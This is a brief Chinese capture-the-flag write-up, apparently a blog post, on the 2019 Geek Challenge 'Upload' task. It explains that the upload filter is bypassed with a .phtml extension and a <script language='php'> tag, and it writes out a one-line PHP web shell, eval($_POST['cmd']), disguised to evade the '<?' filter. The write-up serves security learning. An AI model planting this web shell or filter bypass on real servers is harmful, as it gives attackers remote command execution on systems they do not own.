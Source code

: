 # 原创
：  极客大挑战 2019 Upload

# 极客大挑战 2019 Upload

#### 极客大挑战 2019 Upload

## 考点

> 
phtml绕过后缀、script绕过&lt;?


## 思路

> 
先试试传个php，发现不得行！！！<br/> 抓个包挨个尝试发现phtml可以成功，但是显示`&lt;?`被过滤了，尝试使用`&lt;ScrIpt language="php"&gt;@eval($_POST['cmd'])&lt;/ScrIpt&gt;`来绕过，上传成功后骑上我们的马儿~


## Payload

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526195051532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526195045913.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526195100821.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
